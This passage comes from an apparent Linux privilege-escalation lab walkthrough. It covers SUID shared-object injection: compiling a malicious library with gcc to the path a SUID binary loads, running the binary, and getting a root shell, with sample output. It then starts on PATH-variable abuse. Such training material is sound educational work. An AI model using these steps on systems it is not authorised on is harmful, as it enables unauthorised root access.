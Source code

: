 **Explanation:**  
This code uses a constructor attribute (`__attribute__((constructor))`), which makes the `inject()` function execute automatically when the shared object is loaded. The function elevates privileges to root (`setuid(0)`) and spawns a bash shell with preserved privileges.

**3. Compile the Shared Object:**

Compile the C code into a shared object at the location where the SUID executable expects to find it:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

**Explanation:**  
The `-shared` flag creates a shared object, and `-fPIC` ensures that the code is position-independent, which is necessary for shared libraries.

### Step 4: Execute the SUID Program

Now, run the SUID executable again:

```bash
/usr/local/bin/suid-so
```

**Sample Output:**

```bash
Calculating something, please wait...
bash-4.1# id
uid=0(root) gid=1000(user) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

**Explanation:**  
Instead of displaying the progress bar, the SUID executable now spawns a root shell (`uid=0`), indicating that the shared object injection was successful.

### Cleanup

After gaining root access, remember to exit the root shell and remove the malicious shared object to clean up:

```bash
rm /home/user/.config/libcalc.so
exit
```

**No Answer Needed**

## SUID / SGID Executables - Environment Variables

### Step 1: Identify the Vulnerability

The `/usr/local/bin/suid-env` executable is vulnerable because it inherits the user's `PATH` environment variable. This means it attempts to execute programs using the `PATH` variable without specifying absolute paths, which can be exploited.
